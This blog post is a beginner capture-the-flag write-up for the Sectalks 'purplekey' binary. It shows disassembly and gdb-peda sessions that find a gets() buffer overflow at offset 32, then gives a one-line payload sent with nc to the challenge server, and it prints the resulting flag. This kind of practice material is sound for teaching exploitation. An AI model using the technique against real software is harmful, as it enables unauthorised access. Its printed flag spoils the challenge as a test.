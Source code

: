 ```yaml
---
layout: post
title: "Sectalks 0x13 purplekey write up"
description: "sectalks 0x13 purplekey write up"
category: writeups
tags: [boot2root, vulnhub]
---
```

At sectalks this month ceyx gave great talk on binary exploitation for beginners.
In this two part blog post, I'll be documenting my findings for the two challenges I worked on.

The first challenge named "purplekey" is a standard ELF executable.

```
root@kali:~/sectalks# file purplekey
purplekey: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.35, BuildID[sha1]=25be0cc5aa2121ba25d77660b8d9404f44c362a3, not stripped
```
Running strings on the executable we see that it'll likely ask us for a key and depending on if the inputted key is correct, it'll print the contents of /home/purplekey/flag.

```
root@kali:~/sectalks# strings purplekey
---8<---
FAIL
=1337us
[^_]
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key:
> Key provided is: %s
/home/purplekey/flag
[!] You're not BillyG, who are you?
---8<---

```
To make sure the binary works as expected, I've created the file /home/purplekey/flag with the contents "You win".
Now lets actually run the binary and see what happens.

```
root@kali:~/sectalks# ./purplekey
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
> Key provided is: AAAAAAA
[!] You're not BillyG, who are you?
```
It looks like it's taking our inputted string, truncating it and comparing it to something.
Using objdump, let's dissassemble the binary and find the location of the comparision.

```
root@kali:~/sectalks# objdump -M intel -D purplekey
---8<---
08048560 <main>:
 80485b3:       01 c2                   add    edx,eax
 80485b5:       c7 04 24 34 87 04 08    mov    DWORD PTR [esp],0x8048734
 80485bc:       e8 5f fe ff ff          call   8048420 <puts@plt>               ;print a line
 80485c1:       c7 04 24 54 87 04 08    mov    DWORD PTR [esp],0x8048754
 80485c8:       e8 53 fe ff ff          call   8048420 <puts@plt>               ;print a line
 80485cd:       c7 04 24 77 87 04 08    mov    DWORD PTR [esp],0x8048777
 80485d4:       e8 07 fe ff ff          call   80483e0 <printf@plt>             ;print a line
 80485d9:       8d 84 24 18 01 00 00    lea    eax,[esp+0x118]
 80485e0:       89 04 24                mov    DWORD PTR [esp],eax
 80485e3:       e8 08 fe ff ff          call   80483f0 <gets@plt>               ;reads our input
 80485e8:       8d 84 24 38 01 00 00    lea    eax,[esp+0x138]
 80485ef:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80485f3:       c7 04 24 83 87 04 08    mov    DWORD PTR [esp],0x8048783
 80485fa:       e8 e1 fd ff ff          call   80483e0 <printf@plt>             ;print a line
 80485ff:       8b 84 24 38 01 00 00    mov    eax,DWORD PTR [esp+0x138]
 8048606:       3d 31 33 33 37          cmp    eax,0x37333331                   ;perform a comparision
 804860b:       75 73                   jne    8048680 <main+0x120>             ;if the comparision succeeds jump to the code which prints the flag
---8<---
```
Now that we know the address of the comparision, let's generate an input file to test.

```
root@kali:~/sectalks# echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' > input
root@kali:~/sectalks# gdb -q purplekey
Reading symbols from purplekey...(no debugging symbols found)...done.
```

Set a breakpoint at the comparision at 0x8048606

```
gdb-peda$ b *0x8048606
Breakpoint 1 at 0x8048606
```
Finally, let's run the executable with the generated input file.

```
gdb-peda$ r < input
Starting program: /root/sectalks/purplekey < input
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: AAAAAAAAAAA
[----------------------------------registers-----------------------------------]
EAX: 0x41414141 ('AAAA')
EBX: 0x20 (' ')
ECX: 0xffffb06f --> 0x0
EDX: 0xf7fac870 --> 0x0
ESI: 0x1
EDI: 0xf7fab000 --> 0x1b3db0
EBP: 0xffffd6b8 --> 0x0
ESP: 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
EIP: 0x8048606 (<main+166>:     cmp    eax,0x37333331)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485f3 <main+147>:        mov    DWORD PTR [esp],0x8048783
   0x80485fa <main+154>:        call   0x80483e0 <printf@plt>
   0x80485ff <main+159>:        mov    eax,DWORD PTR [esp+0x138]
=> 0x8048606 <main+166>:        cmp    eax,0x37333331
   0x804860b <main+171>:        jne    0x8048680 <main+288>
   0x804860d <main+173>:        lea    ebx,[esp+0x18]
   0x8048611 <main+177>:        mov    eax,0x0
   0x8048616 <main+182>:        mov    edx,0x40
[------------------------------------stack-------------------------------------]
0000| 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
0004| 0xffffd574 --> 0xffffd6a8 ('A' <repeats 11 times>)
0008| 0xffffd578 --> 0xf7e04564 --> 0x72647800 ('')
0012| 0xffffd57c --> 0xf7fd4858 --> 0xf7df7000 --> 0x464c457f
0016| 0xffffd580 --> 0xffffd5d4 --> 0x0
0020| 0xffffd584 --> 0xffffd5d0 --> 0x0
0024| 0xffffd588 --> 0x3
0028| 0xffffd58c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048606 in main ()
```
As we can the program is comparing part of our input stored in EAX with the static value 0x37333331.
We could rerun the binary several times to calculate where the program was taking the value 0x41414141 from but it's faster to use the pattern_create/pattern_search features to find the exact offset.

```
gdb-peda$ pattern_create 100 input
Writing pattern of 100 chars to filename "input"
gdb-peda$ r < input
Starting program: /root/sectalks/purplekey < input
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
[----------------------------------registers-----------------------------------]
EAX: 0x41412941 ('A)AA')
EBX: 0x20 (' ')
ECX: 0xffffb0a8 --> 0x0
EDX: 0xf7fac870 --> 0x0
ESI: 0x1
EDI: 0xf7fab000 --> 0x1b3db0
EBP: 0xffffd6b8 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
ESP: 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
EIP: 0x8048606 (<main+166>:     cmp    eax,0x37333331)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485f3 <main+147>:        mov    DWORD PTR [esp],0x8048783
   0x80485fa <main+154>:        call   0x80483e0 <printf@plt>
   0x80485ff <main+159>:        mov    eax,DWORD PTR [esp+0x138]
=> 0x8048606 <main+166>:        cmp    eax,0x37333331
   0x804860b <main+171>:        jne    0x8048680 <main+288>
   0x804860d <main+173>:        lea    ebx,[esp+0x18]
   0x8048611 <main+177>:        mov    eax,0x0
   0x8048616 <main+182>:        mov    edx,0x40
[------------------------------------stack-------------------------------------]
0000| 0xffffd570 --> 0x8048783 ("> Key provided is: %s\n")
0004| 0xffffd574 --> 0xffffd6a8 ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
0008| 0xffffd578 --> 0xf7e04564 --> 0x72647800 ('')
0012| 0xffffd57c --> 0xf7fd4858 --> 0xf7df7000 --> 0x464c457f
0016| 0xffffd580 --> 0xffffd5d4 --> 0x0
0020| 0xffffd584 --> 0xffffd5d0 --> 0x0
0024| 0xffffd588 --> 0x3
0028| 0xffffd58c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048606 in main ()
gdb-peda$ pattern_search
Registers contain pattern buffer:
EAX+0 found at offset: 32
Registers point to pattern buffer:
[EBP] --> offset 48 - size ~52
Pattern buffer found at:
0xf7fd2000 : offset    0 - size  100 (mapped)
0xffffb063 : offset   32 - size   68 ($sp + -0x250d [-2372 dwords])
0xffffd688 : offset    0 - size  100 ($sp + 0x118 [70 dwords])
References to pattern buffer found at:
0xf7fab5a4 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5a8 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5ac : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5b0 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5b4 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5b8 : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xf7fab5bc : 0xf7fd2000 (/lib/i386-linux-gnu/libc-2.22.so)
0xffffd404 : 0xf7fd2000 ($sp + -0x16c [-91 dwords])
0xffffd420 : 0xf7fd2000 ($sp + -0x150 [-84 dwords])
0xffffd434 : 0xf7fd2000 ($sp + -0x13c [-79 dwords])
0xffffaa40 : 0xffffb063 ($sp + -0x2b30 [-2764 dwords])
```
We see that after 32 bytes of input our input is being loaded into EAX for comparision.
Now that we know the offset that the string is being loaded from and the correct string that it's being compared to, we can generate an input which should pass the comparision.

```
root@kali:~/sectalks# python -c 'print "A"*32 + "1337"' | ./purplekey
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: 1337
You win
```
OK, so it worked. Let's try against the actual ctf server to get the flag.

```
root@kali:~/sectalks# python -c 'print "A"*32 + "1337"' | nc -v hack.sydney 9001
DNS fwd/rev mismatch: hack.sydney != ec2-52-62-2-205.ap-southeast-2.compute.amazonaws.com
hack.sydney [52.62.2.205] 9001 (?) open
[+] Starting boot sequence...
[!] Welcome to InsecureBoot v1.337
Enter key: > Key provided is: 1337
hack.Sydney{fB1_t01d_m3_b4ckd00r5_w3r3_s4f3_wh4t_w3nt_wr0ng}
```
The flag for purplekey is **hack.Sydney{fB1_t01d_m3_b4ckd00r5_w3r3_s4f3_wh4t_w3nt_wr0ng}**
